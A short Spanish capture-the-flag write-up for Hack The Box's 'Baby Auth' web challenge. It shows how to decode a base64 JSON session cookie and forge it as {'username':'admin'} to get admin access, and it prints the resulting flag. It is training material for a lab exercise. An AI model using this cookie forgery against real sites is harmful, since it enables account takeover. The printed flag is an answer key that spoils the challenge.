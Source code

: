 # Baby Auth

Bien el challenge nos da la pista de que estamos ante un caso de Broken Auth, si observamos tenemos 2 opciones logearnos o crear un usuario, empecemos creando un usuario.

Si interceptamos la peticion no vemos nada raro
```
username=srbleu2&password=test
```
Bien logeemosnos y nos dira que no somos admin, veamos la cookie que nos dan
```
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6InNyYmxldTIiBfQ%3D%3D
```
Es rara para ser una Sesion ID, veamos si averiguamos que es, de entrada el final parece estar url encoded
```
 URL_Decode()
From_Base64('A-Za-z0-9+/=',true)
```
Esa receta en cyberchef nos contara de donde viene la cookie
```
{"username":"srbleu2"}
```
Bien pues parece que se genera un json con nuestro usuario como cookie, de modo que podemos controlar nuesto usuario a placer
El objetivo sera engañar al server con este JSON
```
{"username":"admin"}
```
Si aplicamos esta receta:
```
To_Base64('A-Za-z0-9+/=')
URL_Encode(true)
```
Y cambiamos la cookie en la request, tendremos nuestra flag

Flag **HTB{s3ss10n_1nt3grity_1s_0v3r4tt3d_4nyw4ys}**
